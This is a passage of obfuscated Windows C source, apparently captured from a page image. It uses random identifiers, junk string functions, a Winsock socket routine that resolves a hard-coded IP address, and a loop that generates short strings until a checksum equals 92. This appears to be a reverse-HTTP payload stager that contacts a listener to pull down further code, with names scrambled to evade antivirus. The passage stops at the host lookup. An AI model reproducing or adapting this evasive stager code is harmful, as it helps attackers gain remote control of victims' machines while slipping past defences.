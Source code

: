 ```
    `}`
`}`


char* OZNtVHUJ()
`{` 
    char EqafcdrUDe[2322], lchzXusA[2322/2];
    strcpy(EqafcdrUDe,"KsdJVurnXCZwEPwiYxMkTesCJnIcBzpzkbpihXhtoIKlPqSowe");
    strcpy(lchzXusA,"WbxKqlvywkBPPFOwqjvVDYWNHzeRElhmgzEVedFMzzZIbLNYbN");
    return OySGHDw(strcat( EqafcdrUDe, lchzXusA));
`}`

void MxzrqhwCGD(SOCKET HpKFhGTt) 
`{`
    closesocket(HpKFhGTt);
    WSACleanup();
    exit(1);
`}`

char* ezkJzCUX()
`{`
    char *FoteTKotVa = HTzuNvhCcP("ntHkjiirjivMQLRcvIHfhkPRwprXXDMVwVCXKmYXzGjTKGqYtB");
    return strstr( FoteTKotVa, "p" );
`}`

char* XqleexaJmujm()
`{`
    srand (time(NULL));
    int i;
    char jXDHwTYg[] = "NpDPygsCZFz0fIlSQAO2c4xrb6vJYiWXGm1TVw3udUnkKa9EtBMLHjqheR58o7";
    char* bMKWmB = malloc(5);
    bMKWmB[4] = 0;
    while (1&lt;2)
    `{`
        for(i=0;i&lt;3;++i)
        `{`
            bMKWmB[i] = jXDHwTYg[rand() % (sizeof(jXDHwTYg)-1)];
        `}`
        for(i=0;i&lt;sizeof(jXDHwTYg);i++)
        `{`
            bMKWmB[3] = jXDHwTYg[i];
            if (xDEADohLQOWAzHd(bMKWmB) == 92) 
                return bMKWmB;
        `}`
    `}` return 0;
`}`

char* UQVVQa() 
`{` 
    char qofPBDITdyn[2322] = "QvAaOpKBiWlPPVDkezMgBtoUdUNQHsYSwKTqHAorZOwQkXnYjr";
    char *FBvxORWoFORw = strupr(qofPBDITdyn);
    return strlwr(FBvxORWoFORw);
`}`

SOCKET rGEiHkVJYjGbir() 
`{` 
    struct hostent * Iaedcj;
    struct sockaddr_in XIHDAdziTSd;
    SOCKET rrlyFfRiscWV;
    rrlyFfRiscWV = socket(AF_INET, SOCK_STREAM, 0);
    if (rrlyFfRiscWV == INVALID_SOCKET) 
        MxzrqhwCGD(rrlyFfRiscWV);
    Iaedcj = gethostbyname("192.168.230.129");
```